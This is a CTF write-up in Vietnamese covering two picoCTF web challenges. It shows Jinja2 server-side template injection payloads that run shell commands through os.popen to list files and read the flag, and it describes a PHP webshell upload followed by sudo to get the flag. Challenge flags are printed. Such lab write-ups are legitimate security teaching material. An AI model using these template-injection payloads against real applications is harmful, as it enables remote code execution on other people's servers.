 ## SSTI1 -> SSTI JINJA2

1 vài thử hay ho
`{{7*'7'}}` -> `77777`
`{{7*7}}` -> `49`
chưa thêm được gì nữa
có thể của `php`
auke sau khi thi MCTF
dùng bảng check để kiểm tra phía server dùng loại template engine nào và sau đây là follow của mình :
`{{"<h1>Django OR Jinja2</h1>"|striptags }} ` -> `Django OR Jinja2`
Vậy có thế là Django hoặc Jinja2 . Tiếp tục check
`Djan{{ Jinja2.Django }}go` -> LỖI TEMPLATE
vậy có thể kết luận đó là Jinja2
[PAYLOAD](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html?highlight=jinja2%20ssti#jinja-injection-without-class-object)
Dùng **Jinja Injection without <class 'object'>**
Đầu tiên mình check với `ls` trước

```
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}
```

![image](https://hackmd.io/_uploads/r1ek7fgnyl.png)
cat thôi

```
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cat flag").read() }}
```

FLAG: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}`

## n0s4n1ty 1

Có thể đoán là fileupload
![image](https://hackmd.io/_uploads/Bk8Vvq2jkl.png)
techweb : php
![image](https://hackmd.io/_uploads/ry_Nncnikx.png)

up webshell lên và RCE nhưng không thấy `FLAG`
![image](https://hackmd.io/_uploads/SJpLT5hikg.png)
Hết ý tưởng ròi
![image](https://hackmd.io/_uploads/SkGI-hMhye.png)
Chắc chắn là FLAG không nằm trong root hiện tại ; có thể leo thang đặc quyền ngang
:::danger
NUNU
ls cần sudo
![image](https://hackmd.io/_uploads/r1dr2uLh1e.png)
![image](https://hackmd.io/_uploads/Hy4U2dL2kg.png)
picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}
:::
